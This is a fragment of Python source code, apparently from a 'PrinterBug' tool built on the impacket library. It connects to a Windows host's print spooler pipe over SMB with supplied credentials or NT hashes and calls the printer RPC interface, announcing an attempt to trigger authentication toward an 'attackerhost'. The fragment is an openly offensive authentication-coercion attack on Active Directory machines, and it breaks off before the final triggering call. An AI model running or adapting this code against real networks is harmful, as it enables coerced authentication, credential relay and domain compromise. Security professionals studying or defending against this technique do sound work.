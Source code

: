 ```
import codecs

from impacket.examples.logger import ImpacketFormatter
from impacket import version
from impacket.dcerpc.v5 import transport, rprn
from impacket.dcerpc.v5.dtypes import NULL

class PrinterBug(object):
    KNOWN_PROTOCOLS = {
        139: {'bindstr': r'ncacn_np:%s[\pipe\spoolss]', 'set_host': True},
        445: {'bindstr': r'ncacn_np:%s[\pipe\spoolss]', 'set_host': True},
        }

    def __init__(self, username='', password='', domain='', port=None,
                 hashes=None, attackerhost=''):

        self.__username = username
        self.__password = password
        self.__port = port
        self.__domain = domain
        self.__lmhash = ''
        self.__nthash = ''
        self.__attackerhost = attackerhost
        if hashes is not None:
            self.__lmhash, self.__nthash = hashes.split(':')

    def dump(self, remote_host):

        logging.info('Attempting to trigger authentication via rprn RPC at %s', remote_host)

        stringbinding = self.KNOWN_PROTOCOLS[self.__port]['bindstr'] % remote_host
        # logging.info('StringBinding %s'%stringbinding)
        rpctransport = transport.DCERPCTransportFactory(stringbinding)
        rpctransport.set_dport(self.__port)

        if self.KNOWN_PROTOCOLS[self.__port]['set_host']:
            rpctransport.setRemoteHost(remote_host)

        if hasattr(rpctransport, 'set_credentials'):
            # This method exists only for selected protocol sequences.
            rpctransport.set_credentials(self.__username, self.__password, self.__domain, self.__lmhash, self.__nthash)

        try:
            self.lookup(rpctransport, remote_host)
        except Exception, e:
            if logging.getLogger().level == logging.DEBUG:
                import traceback
                traceback.print_exc()
            logging.critical(str(e))
            raise

    def lookup(self, rpctransport, host):
        dce = rpctransport.get_dce_rpc()
        dce.connect()
        dce.bind(rprn.MSRPC_UUID_RPRN)
        logging.info('Bind OK')
        try:
            resp = rprn.hRpcOpenPrinter(dce, '\\\\%s\x00' % host)
        except Exception, e:
            if str(e).find('Broken pipe') >= 0:
                # The connection timed-out. Let's try to bring it back next round
                logging.error('Connection failed - skipping host!')
```